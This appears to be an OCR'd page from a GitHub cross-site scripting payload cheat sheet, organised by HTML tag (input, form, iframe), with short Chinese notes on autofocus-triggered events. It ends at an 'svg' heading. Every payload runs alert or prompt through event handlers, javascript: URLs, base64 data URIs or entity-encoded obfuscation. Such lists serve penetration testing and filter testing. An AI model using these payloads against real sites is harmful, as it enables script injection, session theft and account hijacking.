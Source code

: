 **`input`**

```html
<input name="name" value="">
    
<input value="" onclick=alert('xss') type="text">
    
<input name="name" value="" onmouseover=prompt('xss') bad="">
    
<input name="name" value=""><script>alert('xss')</script>

<input onfocus="alert('xss');">

竞争焦点，从而触发 onblur 事件
<input onblur=alert('xss') autofocus><input autofocus>

通过 autofocus 属性执行本身的 focus 事件，
这个向量是使焦点自动跳到输入元素上，触发焦点事件，无需用户触发
<input onfocus="alert('xss');" autofocus>
```

**`form`**

```html
<form action=javascript:alert('xss') method="get">
<form action=javascript:alert('xss')>
    
<form method=post action=aa.asp? onmouseover=prompt('xss')>
<form method=post action=aa.asp? onmouseover=alert('xss')>
<form action=1 onmouseover=alert('xss')>
<form><button formaction=javascript:alert(1)>
    
<!--原code-->
<form method=post action="data:text/html;base64,<script>alert('xss')</script>">
<!--base64编码-->
<form method=post action="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
```

**`iframe`**

```html
<iframe src=javascript:alert(1) width=1366 height=768></iframe>
<iframe src=https://baidu.com width=1366 height=768></iframe>
<iframe src=javascript:alert(1)><iframe>
<iframe srcdoc=<svg/o&#x6E;load&equals;alert&lpar;1)&gt;></iframe>
    
<iframe src="data:text/html,&lt;script&gt;alert('xss')&lt;/script&gt;"></iframe>
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
    
<iframe src="aaa" onmouseover=alert('xss') /><iframe>
    
<iframe src="javascript&colon;prompt&lpar;`xss`&rpar;"></iframe>
```

**`svg`**
